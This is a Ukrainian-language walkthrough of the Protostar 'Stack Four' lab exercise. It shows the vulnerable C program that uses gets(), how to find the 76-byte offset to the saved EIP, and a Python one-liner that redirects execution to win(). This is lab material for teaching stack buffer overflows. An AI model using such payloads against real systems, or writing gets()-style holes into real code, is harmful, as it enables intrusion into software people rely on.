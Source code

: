 ## [Stack Four](http://exploit.education/protostar/stack-four/)

Stack4 розглядає перезапис збереженого EIP і стандартне переповнення буфера.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

У нас є буфер для переповнення і вразлива функція ```gets()```, але немає інших змінних для перезапису, щоб викликати функцію ```win()```. 
У цій вправі ми будемо орієнтуватися на адресу повернення основної функції, EIP. Коли програма або функція завершує виконання, вона повинна повернутися до того місця, 
де її викликали. Ця адреса зберігається в стеку (секція стека, присвячена цій функції). 
Експериментальним способом переповняємо буфер, щоб визначити при якій кількості байтів ми отримаємо повідомлення про помилку сегментації, що означатиме, що адреса повернення була некоректною:  
```python -c "print('a' * 76") | ./stack4```  

Отже, маємо, що після 76 байт є область, яка перезаписує EIP, тому нам знадобиться 76 'a' і адреса ```win()``` у little endian. 
Ми будемо використовувати ту саму техніку, що й минулого разу з objdump:  
```objdump -x stack4 | grep win```

Отримуємо адрес ```0x080483f4```. Маючи усі необхідні дані, виконуємо наступну команду:  
```python -c "print('a' * 76 + '\x08\x04\x83\xf4'[::-1])" | ./stack4```